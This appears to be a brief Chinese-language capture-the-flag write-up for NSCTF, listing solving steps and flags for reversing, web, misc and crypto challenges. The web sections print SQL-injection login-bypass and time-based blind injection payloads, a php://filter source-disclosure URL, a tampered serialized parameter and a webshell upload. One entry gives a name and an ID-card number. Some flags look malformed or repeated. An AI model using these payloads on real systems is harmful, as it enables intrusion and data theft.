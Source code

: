 ##re1
	ASCII找到flag:{NSCTF_md5065ca>01??ab7e0f4>>a701c>cd17340}
	异或0x7
	712df97688fe0b7a399f076d9dc60437


###re2
	找字符串
	flag:{NSCTF_md57e0cad17016b0>?45?f7c>0>4a>1c3a0}
	异或0x7
	NSCTF_md50b7dfc60761e798328a0d9793f96d4f7
###re500
	pyc逆字节码运行getflag5()即可
	flag:{NSCTF_md576d958d8a8640dfe2ada4811aef59b26}

### web1

	index.php
	flag:{NSCTF_1E72F25BA71580D7D7DDBD25ACF4A8F3}


###web2
	Referer: http://www.nsctf.net/
	X-Forwarded-For: 101.200.73.168

	Wm14aFp6cDdUbE5EVkVaZk5EZzRZamRoTW1SalkyUXdNbUUzTXpReE5qVmpNemxpWVRRMU1UZGtZ
	ZmxhZzp7TlNDVEZfNDg4YjdhMmRjY2QwMmE3MzQxNjVjMzliYTQ1MTdkYmN9
	flag:{NSCTF_488b7a2dccd02a734165c39ba4517dbc}

###web3
	key和ver都是5.5.9-1ubuntu4.12
	NjY2YzYxNjczYTdiNGU1MzQzNTQ0NjVmMzY2MzM3Mzk2NTM5NjIzMzM2NjMzMDM4NjIzMDMwMzAzMzM1MzIzODM3NjEzODM4NjMzNjYzNjE2MjM5MzA2Njdk
	666c61673a7b4e534354465f36633739653962333663303862303030333532383761383863366361623930667d
	flag:{NSCTF_6c79e9b36c08b00035287a88c6cab90f}

###web4

	找到password.txt
	username=admin&password=Nsf0cuS
	290bca70c7dae93db6644fa00b9d83b9.php
	本来看到以为是xss,结果直接改userlevel=root就好

	flag={NSCTF_76b44eac527ad5c8789f5d2e0f1ede9a}
###web5
	
	rot13,逆序,base64,移位,逆序
	flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}
	
###web6

	改if里面的==为=号直接输出用户名密码
	G0od!JAVA3C41PTISAGO 1pt_Pa4sW0rd_K3y_H3re
	登陆后给出base64 解密 key_Ch3ck_.txt
	继续 Ch3ck_Au7h.php
	检查作者
	uname,upass提交
	flag:{NSCTF_d7590edfdf8bcf958ced10cec94273a}

###web7
	
	Xiaoming09231995
	开房记录 王伟   身份证号34112519831224875X
	
	flag:{NSCTF_3ad65730a8f203a5ab861169e9547f6d}

###web08
	php://filter/read=convert.base64-encode/resource=index.php
	flag:{NSCTF_9bac7a6e289bf89ee0061bd0abdef0ab}

###web09
	base64(md5(20150923)),id=3
	
	/.index.php.swp
	审计
		http://www.nsctf.net:8000/fa81bb665474f11c025b5355582af315/web/09/changepassword.php?userInfo=a:2:{s:2:"id";s:1:"1";s:4:"pass";s:8:"20150923";}&oldPass=20150923&newPass=6666
	flag:{NSCTF_98c5bf58e35877fc76ce03f0f01327c5}
###web10
	源码:http://www.nsctf.net:8000/fa81bb665474f11c025b5355582af315/web/10/index.php.
	先_CONFIG=1取消掉config,注释sql
		password=/*!OR*/%1=1%23&username=\&Submit=%E6%8F%90%E4%BA%A4&_CONFIG=1
		flag:{NSCTF_adf0ff1eb152b1e3398ba4523fc713f}

###web11
	可上传php5
	暴力上传生成小马,index.php里面发现flag
	flag{NSCTF_8f0fc74ddf786103ed56d20af3bf269}

###web12
	时间盲注 payload
	字段flag
		sexlect(ord(substr((SELExCT(group_concat(column_name))FROM(information_schema.columns)WHERE(table_name)%2513%2527flag%2527),1,1)))>1
	内容
		username=admin%2527and(selexct(selxect(slexep(5))and(selecxt(ord(substr((selexct(flag)from(flag)),12,1))>13))))%23&filtername=x&Submit=%E6%8F%90%E4%BA$A4
	flag:{NSCTF_98c5bf58e35877fc76ce03f0f01327c5}
###Misc1

	md5 nsfocous666


###Misc2

	提取出来key.rar 密码是nsfocous+5数字 爆破之
	nsfocous56317

	flag{NCTF_R4r_Cr4ck}

###Misc3
	主要是三个段 消费 初始 余额  确保两个等式正确 算一下就行 每1.8是B4
	flag{NSCTF_RfID_Cr4ck}

###Crypto
	直接AES解密 flag{DISJV_Hej_UdShofjyed} 
	凯撒
	NSCTF_Rot_EnCryption


###Crypto2

	分离图片,第二个就是flag
	flag{NSCTF_e6532a34928a3d1dadd0b049d5a3cc57}
###Crypto3
	stegslove: blue0 反选 flag{NSCTF_Qr_C0De}
